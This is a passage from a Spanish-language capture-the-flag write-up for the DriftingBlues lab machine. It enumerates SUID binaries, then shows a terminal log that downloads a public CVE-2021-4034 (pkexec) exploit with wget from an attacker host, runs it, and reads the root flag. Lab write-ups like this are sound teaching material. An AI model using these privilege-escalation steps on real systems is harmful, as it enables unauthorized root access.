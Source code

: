 ```bash
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
```

El binario `pkexec` tiene una vulnerabilidad conocida, con el que podemos ejecutar un script en python y obtener acceso root.

[Repositorio del archivo python](https://github.com/Almorabea/pkexec-exploit)

Lo descargamos y lo compartimos con la máquina víctima, le damos permiso de ejecución, lo ejecutamos y tenemos la consola como root.

```bash
eric@driftingblues:/tmp$ wget http://10.11.12.10/CVE-2021-4034.py
--2025-01-26 16:43:29--  http://10.11.12.10/CVE-2021-4034.py
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3,0K) [text/x-python]
Saving to: ‘CVE-2021-4034.py.1’

CVE-2021-4034.py.1                      100%[==============================================================================>]   3,00K  --.-KB/s    in 0s

2025-01-26 16:43:29 (83,7 MB/s) - ‘CVE-2021-4034.py.1’ saved [3068/3068]

eric@driftingblues:/tmp$ chmod +x CVE-2021-4034.py
eric@driftingblues:/tmp$ ./CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7fbb76d0e4e8 at 0x7fbb76ba3748>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
uid=0(root) gid=1001(eric) groups=1001(eric)
# cd /root
# ls
root.txt
# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
```
